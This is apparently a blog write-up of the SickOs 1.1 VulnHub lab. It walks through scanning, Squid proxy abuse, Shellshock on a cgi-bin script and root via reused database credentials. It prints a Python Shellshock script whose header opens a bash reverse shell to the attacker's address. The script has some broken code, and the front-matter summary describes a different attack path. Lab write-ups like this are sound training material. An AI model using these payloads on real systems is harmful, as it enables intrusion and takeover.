 ```yaml
---
title: Sickos 1
author: ssanjua
datetime: 2024-09-23T17:00:12.000+00:00
slug: SickOS 1 - Vulnhub
featured: true
tags:
  - Vulnhub
  - Privilege-scalation
  - Medium
description:
  This is a Linux box that involved exploiting the PUT http method to upload a PHP script through which a reverse shell can be obtained, and then using a known vulnerability in the chkrootkit program to escalate to root.
---
```


- **Name**: SickOs: 1.1
- **Date release**: 11 Dec 2015
- **Author**: [D4rk](https://www.vulnhub.com/author/d4rk,199/)
- **Series**: [SickOs](https://www.vulnhub.com/series/sickos,70/)
- 
## Description

This CTF gives a clear analogy how hacking strategies can be performed on a network to compromise it in a safe environment. This vm is very similar to labs I faced in OSCP. The objective being to compromise the network/machine and gain Administrative/root privileges on them

## About Release

Name........: SickOs1.1
Date Release: 11 Dec 2015
Author......: D4rk
Series......: SickOs
Objective...: Get /root/a0216ea4d51874464078c618298b1367.txt
Tester(s)...: h1tch1
Twitter.....: https://twitter.com/D4rk36

---
## Recognition

First we try to recognize the IP of our target with arp-scan.

```bash
sudo arp-scan -I eth0 --localnet --ignoredups
```

![Descripción](../../assets/img-content/sickOs(1).png)

Our target is `192.168.128.132` we proceed to do an nmap scan to see what ports it has open and we discover port **22** and **3128**.

```bash
nmap -p- --open -sT -vvv --min-rate 5000 -n -Pn 192.168.128.132 -oG allPorts
```

Not shown: 65532 filtered tcp ports (no-response), 1 closed tcp port (conn-refused)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack
3128/tcp open  squid-http syn-ack

Data we extract from the reconnaissance: 
- Squid-http syn-ack
- Filtered ports

![Descripción](../../assets/img-content/sickOs(2).png)

Lets do some research **Server Squid**:

Squid is a caching proxy for the Web supporting HTTP, HTTPS, FTP, and more. It reduces bandwidth and improves response times by caching and reusing frequently-requested web pages. Squid has extensive access controls and makes a great server accelerator. It runs on most available operating systems, including Windows and is licensed under the GNU GPL. [Definicion web](https://www.squid-cache.org/)

So we know that what the port is doing is serving as a proxy, so we can think that a server is running on port 80 and is using Squid as a proxy:

We try to curl the ip by brokering a proxy through port **3128** which is the open port through the Squid proxy server.

![Descripción](../../assets/img-content/sickOs(4).png)

![Descripción](../../assets/img-content/sickOs(5).png)

![Descripción](../../assets/img-content/sickOs(6).png)

Ahora podemos intentar listar directorios usando el proxy.

![Descripción](../../assets/img-content/sickOs(7).png)

Now we can try to list directories using the proxy.

![Description](../../assets/img-content/sickOs(7).png)

When we discover a **cgi-bin** directory we are alerted because we know that if it exists we are probably in the presence of a **Shell Shock** [ShellShock - CGI](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi)

Let's see if we get anything else from this dir:

![Description](../../assets/img-content/sickOs(10).png)
![Description](../../assets/img-content/sickOs(9).png)

We searched the web for more information about **Shell Shock** and found an old article [Shell Shock](https://blog.cloudflare.com/inside-shellshock/)

>For example, if example.com was vulnerable then

```bash
curl -H "User-Agent: () { :; }; /bin/eject" http://example.com/
```

We try changing the instruction, using only the header of the example:

![Description](../../assets/img-content/sickOs(11).png)

Effectively we have command execution, so let's try to get a **Reverse shell** through a python script:

```python
#!/user/bin/python3
    
 import sys, signal, requests
 import threading
from pwn import *

def def_handler(sig, frame):
	print("\n[!] - exiting... \n")
	sys.exit(1)
	signal.signal(signal.SIGINT, def_handler)
	main_url = "http://192.168.128.132/cgi-bin/status"
	squid_proxy = {"http": "http://192.168.128.132:3128"}

def shellshock_attack():
	headers = {'User-Agent': "() { :; };
	echo; /bin/bash -c '/bin/bash -i dev/tcp/192.168.128.131/443 0>&1'"}
	r = requests.get(main_url, headers=headers, proxies=squid_proxy) 

if __name__ == '__main__':
	try:
		threading.Thread(target=shellshock_attack, args()).start()
	except Exception as e:
		log.error(str(e))
```

We execute while listening on the port we chose in the script:

![Description](../../assets/img-content/sickOs(22).png)

We made it, we are inside the victim machine and we can execute commands, now we have to escalate our privilege.

We explore and find an interesting info inside the config.php in /var/www/wolfcms (that was in the robots.txt but I decided not to explore that way)

Inside this file are the credentials to authenticate to the database, we have the *User* and *Password* that we can use to try to escalate privileges on the machine.

- User: 'root'
- Password: 'john@123'


![Descripción](../../assets/img-content/sickOs(17).png)

The shell is old so if you google the following output you are advised to update the shell.

![Description](../../assets/img-content/sickOs(18).png)

We update and try to authenticate with the credentials found:

```python
python -c 'import pty;pty.spawn(“/bin/bash”)'
```

![Description](../../assets/img-content/sickOs(19).png)

It worked, we tried again and.... 

![Description](../../assets/img-content/sickOs(20).png)

We are now **root**.

![Description](../../assets/img-content/sickOs(21).png)

Flag found!